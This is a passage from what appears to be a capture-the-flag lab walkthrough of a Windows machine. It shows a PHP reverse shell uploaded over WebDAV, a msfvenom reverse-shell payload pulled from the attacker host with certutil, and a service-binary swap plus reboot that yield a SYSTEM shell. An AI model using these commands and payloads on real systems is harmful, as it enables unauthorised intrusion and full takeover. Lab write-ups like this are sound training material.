Coll:   Windows                                0  Apr  8  2022
Coll:   bd                                     0  Jan 29 03:38
Coll:   xampp                                  0  Oct 16  2020
        DumpStack.log.tmp                   8192  Aug  3  2024
        output.txt                          2696  Jan 29 02:52
        pagefile.sys                   738197504  Aug  3  2024
        swapfile.sys                   268435456  Aug  3  2024
dav:/fs/C/xampp/> cd htdocs
dav:/fs/C/xampp/htdocs/> ls
Listing collection `/fs/C/xampp/htdocs/': succeeded.
        index.html                           887  Nov  3  2020
        phpinfo.php                           21  Nov  3  2020
        script.js                           3023  Nov  3  2020
        styles.css                          1266  Nov  3  2020
```

### HTTP 45332

I observed that the web service running on port 45332 successfully loaded `/phpinfo.php` file that’s stored in the `htdocs` directory. Based on this, I theorized that I could upload a PHP reverse shell via **WebDAV** and trigger it by requesting the file through the web service on port 45332.



```bash
dav:/fs/C/xampp/htdocs/> put Ivan-Sincek.php 
Uploading Ivan-Sincek.php to `/fs/C/xampp/htdocs/Ivan-Sincek.php':
Progress: [=============================>] 100.0% of 9295 bytes succeeded.
<http://192.168.232.127:45332/Ivan-Sincek.php>
```

# Shell as `jerren`

As anticipated, the reverse shell was successfully triggered. Upon establishing the session, I confirmed that I was logged in as the user `jerren` .

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.232.127] 50253
SOCKET: Shell has connected! PID: 1852
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\\xampp\\htdocs>whoami
medjed\\jerren
```

Found `local.txt`

```cmd
C:\\Users\\Jerren\\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A41E-B108

 Directory of C:\\Users\\Jerren\\Desktop

04/08/2022  08:55 AM    <DIR>          .
04/08/2022  08:55 AM    <DIR>          ..
01/28/2026  09:52 PM                34 local.txt
04/08/2022  07:57 AM             2,348 Microsoft Edge.lnk
               2 File(s)          2,382 bytes
               2 Dir(s)  16,503,840,768 bytes free

C:\\Users\\Jerren\\Desktop>type local.txt
830f...
```

# Privilege Escalation

To identify escalation vectors, I transferred `PrivescCheck.ps1` from my local machine to the target host.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
192.168.232.127 - - [29/Jan/2026 04:13:56] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:13:56] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:14:15] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
192.168.232.127 - - [29/Jan/2026 04:14:15] "GET /PrivescCheck.ps1 HTTP/1.1" 200 -
```

The script identified the password for the user `jerren`



It also identified a high severity “**Image File Permission**” vulnerability. The `C:\\bd\\bd.exe` service executes with `LocalSystem` privileges. However, all `Authenticated Users` possess `WriteData` , `Delete` , and `GenericWrite` permissions, meaning any user can modify, delete, or overwrite the service binary.

```cmd
????????????????????????????????????????????????????????????????                                                                          
? CATEGORY ? TA0004 - Privilege Escalation                     ?                                                                          
? NAME     ? Services - Image File Permissions                 ?
? TYPE     ? Base                                              ?
????????????????????????????????????????????????????????????????
? Check whether the current user has any write permissions on  ?
? a service's binary or its folder.                            ?
????????????????????????????????????????????????????????????????

Name              : bd
DisplayName       : BarracudaDrive ( bd ) service
User              : LocalSystem
ImagePath         : "C:\\bd\\bd.exe" 
StartMode         : Automatic
Type              : Win32OwnProcess
RegistryKey       : HKLM\\SYSTEM\\CurrentControlSet\\Services
RegistryPath      : HKLM\\SYSTEM\\CurrentControlSet\\Services\\bd
Status            : Running
UserCanStart      : False
UserCanStop       : False
ModifiablePath    : C:\\bd\\bd.exe
IdentityReference : NT AUTHORITY\\Authenticated Users (S-1-5-11)
Permissions       : ReadData, WriteData, AppendData, ReadExtendedAttributes, WriteExtendedAttributes, Execute, 
                    ReadAttributes, WriteAttributes, Delete, ReadControl, Synchronize, GenericRead, GenericExecute, 
                    GenericWrite

[*] Status: Vulnerable - Severity: High - Execution time: 00:00:09.433
```

I generated a reverse shell payload using `msfvenom` and named it `bd.exe` to match the target service.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=8000 -f exe -o bd.exe   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: bd.exe
```

Before transferring the payload, I renamed the original service binary to `bd_original.exe` to avoid any file conflicts.

```cmd
C:\\bd>move bd.exe bd_original.exe
        1 file(s) moved.
```

```cmd
C:\\bd>certutil -urlcache -split -f <http://192.168.45.236/bd.exe> bd.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

To trigger the payload, a service restart was required. Checking `whoami /priv` revealed that the `jerren` account possessed `SeShutdownPrivilege` . I executed a system reboot using the `shutdown /r` command.

```cmd
C:\\bd>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
C:\\bd>shutdown /r
```

# Shell as `system`

Shortly after the system restarted, I received a reverse shell with `SYSTEM` privileges on my listener.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.232.127] 49669
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\\WINDOWS\\system32>whoami
whoami
nt authority\\system
```

Found `proof.txt`

```cmd
C:\\Users\\Administrator\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A41E-B108

 Directory of C:\\Users\\Administrator\\Desktop

12/02/2021  12:51 PM    <DIR>          .
12/02/2021  12:51 PM    <DIR>          ..
12/02/2021  12:51 PM             2,348 Microsoft Edge.lnk
01/28/2026  09:52 PM                34 proof.txt
               2 File(s)          2,382 bytes
               2 Dir(s)  16,420,249,600 bytes free
```

```cmd
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
ea2a...
```

